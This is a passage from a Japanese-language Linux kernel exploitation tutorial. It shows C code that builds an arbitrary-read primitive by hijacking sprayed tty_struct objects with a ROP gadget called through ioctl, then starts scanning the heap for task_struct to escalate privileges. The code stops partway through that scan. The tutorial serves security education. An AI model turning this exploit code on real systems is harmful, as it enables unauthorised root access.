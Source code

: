   <div class="faceicon"><img src="../img/cow.jpg" alt="牛さん" ></div>
  <p class="says">
    この方法はAAR/AAWさえ持っていればROP gadgetや関数のオフセットに依存しないexploitが書けるから、いろんな環境で安定して動くexploitを書きたい場合には便利だね。
  </p>
</div>

原理が分かったところで、実際にこの手法で権限昇格を実装してみましょう。AARは愚直に実装しても構いませんが、今回のように大量に呼び出す際に毎回sprayした`tty_struct`のすべてを試すのは時間がかかるので、初回呼び出しでfdをキャッシュするようにしました。また、ROP gadgetを書き込む`write`も初回だけで良いので、2回目以降は呼び出さないことで大幅にexploitを高速化できます。
```c
int cache_fd = -1;

unsigned int AAR32(unsigned long addr) {
  if (cache_fd == -1) {
    unsigned long *p = (unsigned long*)&buf;
    p[12] = rop_mov_eax_prdx;
    *(unsigned long*)&buf[0x418] = g_buf;
    write(fd, buf, 0x420);
  }

  // mov eax, [rdx]; ret;
  if (cache_fd == -1) {
    for (int i = 0; i < 100; i++) {
      int v = ioctl(spray[i], 0, addr /* rdx */);
      if (v != -1) {
        cache_fd = spray[i];
        return v;
      }
    }
  } else {
    return ioctl(cache_fd, 0, addr /* rdx */);
  }
}
```
次に、`task_struct`がヒープ上のどこに存在するか分からないので、`g_buf`のアドレスよりもかなり前から探索するようにしましょう。gdbで確認したところ0x200000程度前に存在しましたが、環境やヒープの使用状況により異なるため幅は大きく持たせます。
```c
  // task_structの探索
  if (prctl(PR_SET_NAME, "nekomaru") != 0)
    fatal("prctl");
  unsigned long addr;
  for (addr = g_buf - 0x1000000; ; addr += 0x8) {
    if ((addr & 0xfffff) == 0)
      printf("searching... 0x%016lx\n", addr);
```

[^1]: オブジェクトのサイズはカーネルのバージョンによって変わる可能性があるので注意しましょう。
[^2]: これはLinuxが提供する双方向リストのポインタです。mutexなどを利用すると作られるためカーネル中の多くのオブジェクトに存在し、ヒープアドレスリークに役立ちます。
[^3]: その変数を使う関数を逆アセンブルしてアドレスを特定する方法もあります。